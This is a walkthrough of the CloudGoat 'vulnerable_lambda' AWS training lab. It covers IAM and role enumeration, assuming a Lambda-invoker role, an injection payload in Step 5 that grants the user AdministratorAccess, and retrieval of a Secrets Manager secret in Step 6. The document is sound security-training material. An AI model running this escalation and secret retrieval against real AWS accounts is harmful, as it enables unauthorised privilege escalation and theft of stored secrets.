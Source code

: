 ## Step 1: Get Permissions for IAM User `bilbo`
Before anything else, check what permissions the `bilbo` user currently has.

### Commands
```bash
# Get the ARN and full name of the current user
aws --profile bilbo --region us-east-1 sts get-caller-identity

# List policies directly attached to the user (if any)
aws --profile bilbo --region us-east-1 iam list-user-policies --user-name bilbo

# List all permissions assigned via a user policy
aws --profile bilbo --region us-east-1 iam get-user-policy --user-name bilbo --policy-name [your_policy_name]
```
### What This Does
- The first command confirms that you're using the right AWS profile (`bilbo`).
- The second command checks if there are any user-specific policies.
- The third command retrieves details about a specific policy.

---

## Step 2: Find and Assume a Privileged Role
The next step is to list all roles in the AWS account and look for one that `bilbo` can assume.

### Commands
```bash
# List all roles in the AWS account (filtering for CloudGoat roles)
aws --profile bilbo --region us-east-1 iam list-roles | grep cg-

# Get all policies attached to the identified role
aws --profile bilbo --region us-east-1 iam list-role-policies --role-name [cg-target-role]

# Assume the role that allows invoking Lambda functions
aws --profile bilbo --region us-east-1 sts assume-role --role-arn [cg-lambda-invoker_arn] --role-session-name assumed-role
```

### What This Does
- Lists all roles, looking for ones associated with CloudGoat (`cg-`).
- Checks what policies are attached to a promising role.
- If the role is assumable, we assume it to gain higher privileges.

---

## Step 3: Identify the Target (Vulnerable) Lambda
Once you have assumed the Lambda-invoker role, list all available Lambda functions to find the vulnerable one.

### Command
```bash
# List all Lambda functions
aws --profile assumed_role --region us-east-1 lambda list-functions
```

### What This Does
- Retrieves all Lambda functions in the AWS account.
- Identifies the one belonging to CloudGoat (it will likely start with `cg-`).
- This Lambda can apply AWS policies to users—our attack target.

---

## Step 4: Examine the Lambda Function’s Code
The Lambda function contains source code that determines how it processes requests. We need to look at it for vulnerabilities.

### Command
```bash
# Get detailed information about the vulnerable Lambda, including its source code package
aws --profile assumed_role --region us-east-1 lambda get-function --function-name [policy_applier_lambda_name]
```

### What This Does
- Returns details about the function, including a **download URL** for its deployment package.
- The package contains the Lambda function’s code.
- Look for:
  - **How it processes input** (is it properly sanitizing input?).
  - **Any database structure hints** in the comments.
  - **Potential injection vulnerabilities**.

---

## Step 5: Exploit the Lambda Function
The function is vulnerable to an injection attack. We can exploit this by crafting a malicious payload.

### Steps
1. Create a JSON file (`payload.json`) with a specially crafted policy name:
   ```json
   {
       "policy_names": ["AdministratorAccess' -- "],
       "user_name": "[bilbo_user_name_here]"
   }
   ```
2. Use the AWS CLI to invoke the Lambda function with this payload.

### Commands
```bash
# Send the injection payload to the Lambda function
aws --profile assumed_role --region us-east-1 lambda invoke --function-name [policy_applier_lambda_name] --cli-binary-format raw-in-base64-out --payload file://./payload.json out.txt

# Check the output to confirm success
cat out.txt
```

### What This Does
- The JSON payload **injects an extra policy application command** by escaping a string.
- The Lambda function grants `AdministratorAccess` to `bilbo`, making them an admin.

---

## Step 6: Use Admin Privileges to Retrieve the Secret
Now that `bilbo` has admin rights, we can access AWS Secrets Manager to retrieve the stored secret.

### Commands
```bash
# List all secrets stored in AWS Secrets Manager
aws --profile bilbo --region us-east-1 secretsmanager list-secrets

# Retrieve the value of a specific secret
aws --profile bilbo --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
```

### What This Does
- The first command lists all available secrets.
- The second command retrieves the actual secret value.

---

## Scenario Clean up
- Do not forget to destroy the scenario so you do not get charged by AWS. 
  ```bash
  ./cloudgoat.py destroy vulnerable_lambda
  ```
